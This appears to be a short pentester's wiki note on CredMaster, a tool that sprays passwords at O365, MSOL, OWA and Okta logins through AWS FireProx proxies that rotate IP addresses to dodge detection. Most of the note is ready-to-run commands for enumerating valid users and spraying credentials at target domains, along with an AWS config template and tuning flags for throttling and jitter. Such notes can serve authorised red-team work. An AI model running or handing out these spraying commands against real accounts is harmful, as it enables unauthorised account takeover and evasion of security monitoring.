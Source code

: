 
# CredMaster
Init,
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### Flags
- `-u` username file
- `-t` threads
- `--plugin` plugin to use
- `--config` config file to use
- `-p` passwords file
- `-o` output file
- `-ua` user agents list to cycle thru
- `-t` throttling
- `-m` min jitter *has to be a higher number than `-j`*
- `-j` jitter
### Plugin Examples
#### O365 User Enum
```bash
python3 credmaster.py \
--plugin o365enum \
--config aws.config \
-u usernames.txt \
-t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
#### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```
#### MSOL
```bash
python3 credmaster.py -u "all_emails_v1.txt" \ 
-p pass.txt \ 
--plugin msol \ 
--config aws.config \ 
--color \ 
-o "credmaster-MSOL-out-3.txt" \ 
-t 5 -j 15 -m 10 \ 
-a ua.txt # list of user agent strings to use
```
#### o365enum
```bash
python3 credmaster.py -u "users.txt" \
--plugin o365enum \
--config aws.config \
--color \
-o "./o365-enum-out" \
-t 5 -j 15 -m 10 \ # jitter has to be higher than throttle
-a ua.txt
```
#### OWA Plugin Spray
**NOTE** use a url you've found on the target's actual domain.
```bash
python3 credmaster.py -u "/root/target/users.txt" \
-p pass.txt \
--plugin owa \
--url "https://target.mail.onmicrosoft.com" \
--config aws.config \
-o "/root/target/OWA-credmaster-out"
```
#### Okta
```bash 
python3 credmaster.py \
--plugin okta \
--config aws.config \
-u users.txt \
-p passwords.txt \
-o okta-out \
--url https://target.okta.com
```

> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)

> [!Related]
> - [password-spraying](../../password-spraying.md)
> - [trevorspray](trevorspray.md)
